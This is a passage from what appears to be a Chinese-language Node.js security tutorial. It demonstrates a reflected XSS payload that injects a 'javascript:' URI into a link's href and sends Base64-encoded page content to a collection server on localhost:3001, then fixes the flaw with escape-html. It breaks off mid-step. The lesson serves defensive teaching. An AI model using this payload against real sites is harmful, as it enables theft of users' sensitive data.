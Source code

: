 1.  在你的浏览器窗口中，访问以下 URL：

    ```js
    http://localhost:3000/?previous=javascript:(new%20Image().src)=`http://localhost:3001/attack/${btoa(document.getElementById(%22status%22).innerHTML)}`,0/&token=TOKEN&lang=en
    ```

1.  网页应该看起来和之前一样，仍然显示**所有系统正在运行**的消息。然而，XSS 注入已经更新了**返回**超链接的**href**值，使其指向以下内容：

    ```js
    javascript:(new Image().src)=``http://localhost:3001/attack/${btoa(document.getElementById(status).innerHTML)}``,0 /
    ```

    链接以**javascript:**开头，这是一个允许 JavaScript 作为 URI 执行的协议处理器。当点击这个链接时，会创建一个 HTML 图像元素（**<img>**），其**src**值设置为我们的数据收集服务器地址。**btoa()**函数将状态值 Base64 编码。在这里，**,0**被附加到末尾，导致表达式评估为**false** - 确保图像不被渲染。

1.  点击**返回**链接并检查数据收集服务器。你会看到状态已经被接收，如下所示：

    ```js
    $ node collection-server.js
    ::1 All systems are running.
    ```

    为了强调这些攻击的危险性，想象一下这如果是真实的特权数据，比如凭证或令牌。仅仅通过发送一个恶意链接给用户并让他们点击它，我们就可以通过我们的收集服务器获取他们的敏感数据。

    服务器仍然容易受到攻击，因为我们仍然可以注入值到**href**属性中。避免这种情况最安全的方法是不允许输入确定**href**属性的值：

1.  让我们将**fixed-server.js**复制到一个新文件并修复它：

    ```js
    $ cp fixed-server.js protocol-safe-server.js
    ```

1.  我们将通过安装**escape-html**模块来修复这个漏洞：

    ```js
    $ npm install escape-html
    ```

1.  通过替换**he**模块导入以下行，在**fixed-server.js**中导入**escape-html**模块：

    ```js
    const escapeHTML = require('escape-html');
    ```

1.  然后，将 **href** 赋值更改为以下内容：

    ```js
    const href = escapeHTML(`/${previous}${token}/${lang}`);
    ```

1.  现在，启动 **protocol-safe-server.js** :

    ```js
    $ node protocol-safe-server.js
    Server listening on port 3000
    ```

1.  在数据收集服务器仍在运行的情况下，重新访问恶意 URL 并点击 **后退** :
